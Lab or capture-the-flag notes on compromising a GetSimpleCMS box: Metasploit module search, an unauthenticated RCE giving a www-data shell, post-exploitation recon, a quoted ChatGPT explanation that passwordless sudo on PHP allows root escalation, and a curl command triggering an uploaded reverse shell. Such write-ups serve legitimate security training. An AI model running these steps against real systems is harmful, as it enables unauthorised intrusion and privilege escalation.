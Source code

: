

```
       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/getsimplecms_unauth_code_exec                                                                                                            
```

![../2. Recon/Images/Pasted image 20241007144838.png](<../2. Recon/Images/Pasted image 20241007144838.png>)

This attack is successful and we are now username: www-data, Which allows us to grab the first capture flag
![../2. Recon/Images/Pasted image 20241007145121.png](<../2. Recon/Images/Pasted image 20241007145121.png>)

![../2. Recon/Images/Pasted image 20241007145605.png](<../2. Recon/Images/Pasted image 20241007145605.png>)

Following attack we execute the command below to identify any other potential paths for privilege escalation
```
run post/multi/recon/local_exploit_suggester
```

![../2. Recon/Images/Pasted image 20241007170158.png](<../2. Recon/Images/Pasted image 20241007170158.png>)

Check for sudo powers
```
run post/multi/recon/sudo_commands
```

![[Pasted image 20241007181120.png]]

From ChatGPT:
The sudo configuration you're looking at allows specific users to run certain commands with elevated privileges, typically as the root user or another user. Let's break it down:

| **Field**       | **Explanation**                                                                                                                                   |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Command**     | `/usr/bin/php` – This allows the execution of the PHP interpreter located at this path. Users can run any PHP script with elevated privileges.    |
| **RunAsUsers**  | `ALL` – The command can be run as any user, not just the root user. Users can impersonate any other user when running this command.               |
| **RunAsGroups** | `ALL` – The command can be run with the privileges of any group on the system.                                                                    |
| **Password?**   | `""` (empty) – No password is required when running the command with sudo. This bypasses the normal password prompt.                              |
| **Privesc?**    | `True` – Privilege escalation is allowed, meaning running this command can lead to higher permissions, such as root or another user's privileges. |
|                 |                                                                                                                                                   |

Upload reverseshell.php to data/uploads location

![../2. Recon/Images/Pasted image 20241007214044.png](<../2. Recon/Images/Pasted image 20241007214044.png>)



```
curl http://10.129.42.249/data/uploads/reverseshell.php
```

Validate Foothold, and proceed to next steps